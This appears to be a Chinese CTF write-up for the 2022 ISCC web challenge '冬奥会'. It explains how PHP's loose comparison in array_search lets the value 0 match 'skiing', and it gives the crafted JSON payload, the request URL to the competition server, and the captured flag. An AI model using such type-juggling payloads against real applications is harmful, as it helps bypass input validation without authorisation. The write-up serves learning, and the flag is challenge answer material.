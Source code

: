 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: 2022-ISCC-misczl-冬奥会-writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2022-05-24
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup
  - CTF

comment: false
---
```




# 

## 0x01 题目

![image_UNs-rds368](2022_ISCC_web_%E5%86%AC%E5%A5%A5%E4%BC%9A_writeup.assets/image_UNs-rds368.png)

## 0x02 解题思路

打开题目url，可以看到题目的php代码

![image_zJyvh03b-y](2022_ISCC_web_%E5%86%AC%E5%A5%A5%E4%BC%9A_writeup.assets/image_zJyvh03b-y.png)

观察代码，通过get方式接受json格式的参数`Information`,对里面参数进行判断，完全符合要求后显示flag

其中主要代码：

```php
$status = array_search("skiing", $info["items"]);
$status===false?die("Sorry~"):NULL;
foreach($info["items"] as $key=>$val){
    $val==="skiing"?die("Sorry~"):NULL;
}
```

猛然一看这里前后对skiing是否存在判断是矛盾的，推测要使用php的弱类型绕过检查

因为foreach循环里对skiing判断使用的是`===`所以无法绕过，只能再array\_search中绕过

这里参考一篇文章&#x20;

<https://www.cnblogs.com/liangshian/p/10925792.html>

`array_search()`函数中使用的`==`来判断，存在弱类型问题，所以只要传入0，则`0==skiing`返回true

所以根据代码条件

`year`：非数字

`items[1]`:数组

`items`:长度为3，不包含skiing

构建传入参数

```json
Information= {"year":"a2022","items":[0,[1,2,3],"4"]}
```

提交请求

```php
http://59.110.159.206:7060/?Information= {"year":"a2022","items":[0,[1,2,3],"4"]}
```

得到flag： ISCC{AAxQbs2N\_1s1PsQJ9\_as71H8sb8}

![image_k7LYnJA5AI](2022_ISCC_web_%E5%86%AC%E5%A5%A5%E4%BC%9A_writeup.assets/image_k7LYnJA5AI.png)
